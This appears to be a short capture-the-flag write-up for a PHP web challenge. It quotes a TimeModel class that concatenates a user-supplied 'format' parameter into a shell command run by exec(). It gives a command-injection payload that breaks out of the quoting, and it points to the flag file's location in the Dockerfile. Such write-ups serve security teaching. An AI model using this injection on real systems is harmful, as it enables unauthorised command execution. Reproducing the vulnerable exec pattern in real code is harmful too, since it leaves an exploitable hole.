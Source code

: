 ## **Description**
Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine.
<br></br>
In controllers -> `TimeController.php` we can see that it take a get parameter  `format` and pass it to getTime().

We can see the function in `TimeModel.php`

```php
<?php

class TimeModel

{

    public function __construct($format)

    {

        $this->command = "date '+" . $format . "' 2>&1";

    }

  

    public function getTime()

    {

        $time = exec($this->command);

        $res  = isset($time) ? $time : '?';

        return $res;

    }

}
```
Here where we format param get handled 
```php
$command = "date '+" . $format . "' 2>&1";
```
We can bypass it like this : 
``'; echo $(ls)'``
<br></br>
From the DockerFile we can see the flag location :
```DockerFile
# Copy flag

COPY flag /flag
```


